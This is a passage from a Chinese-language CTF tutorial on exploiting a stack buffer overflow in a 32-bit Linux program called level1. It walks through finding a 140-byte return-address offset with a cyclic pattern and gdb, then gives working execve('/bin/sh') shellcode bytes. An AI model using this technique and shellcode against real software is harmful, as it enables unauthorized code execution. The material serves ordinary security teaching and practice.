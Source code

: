 ```
#!bash
python pattern.py create 150 
```

来生成一串测试用的150个字节的字符串：

```
#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9 
```

随后我们使用gdb ./level1调试程序。

```
#!bash
(gdb) run
Starting program: /home/mzheng/CTF/groupstudy/test/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? () 
```

我们可以得到内存出错的地址为0x37654136。随后我们使用命令：

```
#!bash
python pattern.py offset 0x37654136
hex pattern decoded as: 6Ae7
140 
```

就可以非常容易的计算出PC返回值的覆盖点为140个字节。我们只要构造一个`"A"*140+ret`字符串，就可以让pc执行ret地址上的代码了。

接下来我们需要一段shellcode，可以用msf生成，或者自己反编译一下。

```
#!c
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80" 
```

这里我们使用一段最简单的执行 `execve ("/bin/sh")` 命令的语句作为shellcode。
